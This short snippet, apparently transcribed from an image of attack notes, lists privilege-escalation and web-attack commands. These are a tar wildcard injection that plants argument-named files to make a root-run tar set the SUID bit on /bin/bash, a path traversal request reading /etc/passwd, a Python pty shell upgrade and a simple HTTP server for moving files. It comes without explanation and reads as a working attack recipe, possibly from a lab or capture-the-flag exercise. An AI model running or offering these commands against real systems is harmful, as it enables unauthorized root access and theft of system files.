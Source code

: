 ls -la /bin/bash
date
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
ls -al /bin/bash 
date 
ls -al /bin/bash

alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
python -c 'import pty; pty.spawn("/bin/bash")'
python -m SimpleHTTPServer 8888
